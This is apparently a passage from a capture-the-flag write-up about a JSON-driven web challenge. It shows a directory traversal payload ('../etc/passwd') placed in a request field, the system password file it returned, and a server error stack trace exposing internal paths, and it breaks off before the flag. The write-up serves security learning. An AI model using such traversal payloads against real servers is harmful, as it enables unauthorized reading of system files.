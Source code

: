 We can see that it gets a random number and then tries to grab that number. We also notice that if we get any number outside of that range we are met with a response that says:

`{"message":"You are not believing yet! You must believe!"}`

So the first thing I tried was to increase the csv number to see if there was maybe a number that was super high that possibly had the number in it with no luck.

Since the extension `.csv` was also included in the request, I though that it might be vulnerable to directory traversal.

`{"message":"./1.csv"}`

Going along with the idea of a directory trabersal we try a common file which gave us the file:

`{"message": "../etc/passwd"}`
```
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/bin/sh
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/spool/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
postgres:x:70:70::/var/lib/postgresql:/bin/sh
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
node:x:1000:1000:Linux User,,,:/home/node:/bin/sh
```

So now we have directory traversal, but how do we get the flag?

After playing around with the json for a bit I run into an error:
```
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="utf-8">
        <title>Error</title>
        </head>
    <body>
        <pre>SyntaxError: Unexpected end of JSON input<br>
        &nbsp; &nbsp;at JSON.parse (&lt;anonymous&gt;)<br>
        &nbsp; &nbsp;at parse (/var/www/html/node_modules/body-parser/lib/types/json.js:89:19)<br>
        &nbsp; &nbsp;at /var/www/html/node_modules/body-parser/lib/read.js:121:18<br>
        &nbsp; &nbsp;at invokeCallback (/var/www/html/node_modules/raw-body/index.js:224:16)<br>
        &nbsp; &nbsp;at done (/var/www/html/node_modules/raw-body/index.js:213:7)<br>
        &nbsp; &nbsp;at IncomingMessage.onEnd (/var/www/html/node_modules/raw-body/index.js:273:7)<br>
        &nbsp; &nbsp;at emitNone (events.js:106:13)<br>
```